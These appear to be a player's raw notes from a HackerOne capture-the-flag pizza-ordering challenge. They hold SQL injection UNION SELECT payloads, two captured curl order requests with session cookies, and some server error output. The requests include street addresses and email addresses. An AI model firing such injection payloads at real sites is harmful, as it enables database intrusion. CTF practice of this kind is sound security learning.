 # Last column is delivered status
' UNION SELECT 0,0,0 -- --
' UNION SELECT 0,0,1 -- --

curl 'https://pizza.hacktivity.h1ctf.com/order' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Accept: */*' \
  -H 'DNT: 1' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Origin: https://pizza.hacktivity.h1ctf.com' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://pizza.hacktivity.h1ctf.com/' \
  -H 'Accept-Language: en-US,en;q=0.9,la;q=0.8' \
  -H 'Cookie: session=92a09afe6293f441dd1063b61fa6ab35' \
  --data-raw 'toppings%5B%5D=1&toppings%5B%5D=2&toppings%5B%5D=3&toppings%5B%5D=15&toppings%5B%5D=5&toppings%5B%5D=6&toppings%5B%5D=7&toppings%5B%5D=8&toppings%5B%5D=9&toppings%5B%5D=10&toppings%5B%5D=11&toppings%5B%5D=12&branch=3281&address%5Bline_1%5D=900+Pine+St&address%5Bline_2%5D=Apt+900&address%5Bline_3%5D=Door+on+the+left&address%5Bcity%5D=San+Francisco&address%5Bstate%5D=CA&address%5Bzipcode%5D=94109&email=pizza%40zoeyinthe.cloud&discount_code=' \
  --compressed


curl 'https://pizza.hacktivity.h1ctf.com/order' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Accept: */*' \
  -H 'DNT: 1' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Origin: https://pizza.hacktivity.h1ctf.com' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://pizza.hacktivity.h1ctf.com/' \
  -H 'Accept-Language: en-US,en;q=0.9,la;q=0.8' \
  -H 'Cookie: session=19e60372558c97fc15ef812f998d1f95' \
  --data-raw 'branch=3281&address%5Bline_1%5D=925+Jones+Street&address%5Bline_2%5D=Apt+305&address%5Bline_3%5D=&address%5Bcity%5D=San+Francisco&address%5Bstate%5D=CA&address%5Bzipcode%5D=94109&email=zoeygarvey%40gmail.com&discount_code=' \
  --compressed

1159
No JSON object could be decoded

3306
No JSON object could be decoded

